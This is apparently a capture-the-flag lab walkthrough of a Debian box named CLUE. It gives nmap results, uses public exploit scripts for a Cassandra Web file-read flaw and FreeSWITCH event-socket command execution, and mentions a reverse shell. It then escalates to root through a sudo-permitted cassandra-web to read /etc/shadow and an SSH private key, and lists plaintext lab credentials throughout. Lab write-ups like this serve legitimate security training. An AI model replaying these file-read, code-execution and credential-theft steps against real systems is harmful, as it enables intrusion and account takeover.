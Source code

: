 **IP:** `192.168.104.240`

---

## TARGET / OS & TECH
- **OS/TECH:** Debian (services include Apache, Samba, FreeSWITCH, Cassandra Web)

---

## USERS / CREDENTIALS
- `cassie : SecondBiteTheApple330`
- `anthony : (extracted later via SSH key)`

---

## SERVICES (summary)
- `139/tcp` SMB → nothing useful
- `445/tcp` SMB → nothing useful
- `80/tcp` HTTP → Apache, 403 Forbidden
- `3000/tcp` HTTP → Cassandra Web UI, exploitable for **Remote File Read**
- `8021/tcp` FreeSWITCH event socket → required valid password for RCE
- `22/tcp` SSH → available

---

## NMAP RESULTS
```
PORT     STATE SERVICE          VERSION
22/tcp   open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
|_banner: SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
80/tcp   open  http             Apache httpd 2.4.38
|_http-server-header: Apache/2.4.38 (Debian)
139/tcp  open  netbios-ssn      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3000/tcp open  http             Thin httpd
|_http-server-header: thin
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
|_banner: Content-Type: auth/request
Service Info: Hosts: 127.0.0.1, CLUE; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## EXPLOITATION PATH

### Cassandra Remote File Read (port 3000)
Exploit script (`49362.py`) allowed reading arbitrary files:

**Read `/etc/passwd`:**
```bash
python3 49362.py 192.168.104.240 /etc/passwd
```
Output showed valid users: `cassie`, `anthony`.

**Read `/proc/self/cmdline`:**
```bash
python3 49362.py 192.168.104.240 /proc/self/cmdline
```
Revealed cassandra-web process args containing credentials:
```
ucassie -p SecondBiteTheApple330
```

### FreeSWITCH Event Socket (port 8021)
Used Cassandra RFI to retrieve FreeSWITCH config:
```bash
python3 49362.py 192.168.104.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml
```
Found password:
```
StrongClueConEight021
```

Confirmed RCE via exploit (`47799.py`):
```bash
python3 47799.py 192.168.104.240 id
uid=998(freeswitch) gid=998(freeswitch) groups=998(freeswitch)
```

Established reverse shell, then switched to `cassie` using known password.

---

## PRIVILEGE ESCALATION

1. From `cassie` shell, checked sudo rights:
   ```bash
   sudo -l
   ```
   Output:
   ```
   (ALL) NOPASSWD: /usr/bin/cassandra-web
   ```

2. Launched cassandra-web as root:
   ```bash
   sudo cassandra-web -B 0.0.0.0:4444 -u cassie -p SecondBiteTheApple330
   ```

3. Accessed web interface (running as root).

4. Retrieved sensitive files:
   - `/etc/shadow`
   - `/home/anthony/.ssh/id_rsa`

5. Extracted Anthony’s private SSH key → authenticated → **root compromise achieved**.
